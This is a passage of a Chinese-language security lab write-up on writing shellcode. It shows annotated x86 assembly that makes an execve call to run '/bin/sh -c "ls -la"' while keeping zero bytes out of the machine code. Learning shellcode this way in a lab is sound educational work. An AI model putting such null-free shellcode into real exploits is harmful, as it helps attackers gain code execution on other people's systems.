 编译运行：

![[Pasted image 20231028114120.png]]

可以看到两次执行的shell PID不同，证明我们成功创建了一个新shell。同时，查看机器码，其中不含%0.

![[Pasted image 20231028114203.png]]

#### 1.c Providing Arguments for System Calls

在本任务中，我们需要修改mysh.s，使得其能够响应“/bin/sh -c "ls -a"”。与之前一致，我们不能够使机器码中出现0，所以采用重复的/或者占位符来构造0.

添加注释，修改后的mysh.s如下：
```assembly
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor eax, eax     ; Set eax to 0
      push eax         ; Use 0 to terminate the string

      push "//sh"      ; Push command string "//sh"
      push "/bin"      ; Push command string "/bin"
      mov ebx, esp     ; Store the address of argv[0]] (command string)

      push eax         ; Null terminator for argv[1]]
      mov eax, "##-c"  ; Load the argument string "-c"
      shr eax, 16      ; Clear the high 16 bits of eax
      push eax         ; Push the processed argument string "-c" for argv[0]]
      xor eax, eax     ; Set eax to 0
      mov ecx, esp     ; Store the address of argv[1]] (argument string)

      mov eax, "##la"  ; Load the argument string "la"
      shr eax, 16      ; Clear the high 16 bits of eax
      push eax         ; Push the processed argument string "la" for argv[2]]
      xor eax, eax     ; Set eax to 0
      push "ls -"      ; Push the command string "ls -"
      mov edx, esp     ; Store the address of argv[2]] (command with argument)

      push eax         ; Null terminator for envp (no environment variables)

      push edx         ; Push the address of argv[2]] (command with argument)
      push ecx         ; Push the address of argv[1]] (argument string)
      push ebx         ; Push the address of argv[0]] (command string)
      
      mov ecx, esp     ; Store the address of the argument array argv[]]
      xor edx, edx     ; No environment variables
      xor eax, eax     ; Set eax to 0
      mov al, 0x0b     ; Set al to 0x0b (execve system call number)
      int 0x80         ; Invoke the execve system call
```

编译运行，结果如预期。
